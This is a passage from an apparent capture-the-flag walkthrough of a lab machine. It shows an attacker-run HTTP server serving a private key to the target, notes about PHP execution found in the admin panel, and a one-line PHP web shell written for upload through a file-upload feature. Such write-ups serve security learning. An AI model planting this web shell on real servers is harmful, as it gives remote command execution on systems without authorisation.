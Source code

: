 ```php
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.170.242 - - [31/Jul/2021 10:19:47] "GET /privkey.key HTTP/1.1" 200 
```

## File upload

Looking at the Admin Panel  we have 2 new functionalities on the website, `View Notes` and `Upload File`.

[![admin_panel](/img/thenotebook/admin_panel.png)](/img/thenotebook/admin_panel.png)

`Upload File` sounds very interesting, but let's look at the notes first to gather more information. The first note mentions a security vulnerability about all php files on the server being executed, which could pair well with the upload functionality.

[![php_exec](/img/thenotebook/php_exec.png)](/img/thenotebook/php_exec.png)

The second note mentions backups being scheduled which might be interesting for later on.

[![backups_scheduled](/img/thenotebook/backups_scheduled.png)](/img/thenotebook/backups_scheduled.png)

To abuse the file upload we generate a small and simple php web shell in a first step.

```php
<?php system($_REQUEST['cmd']); ?>
```
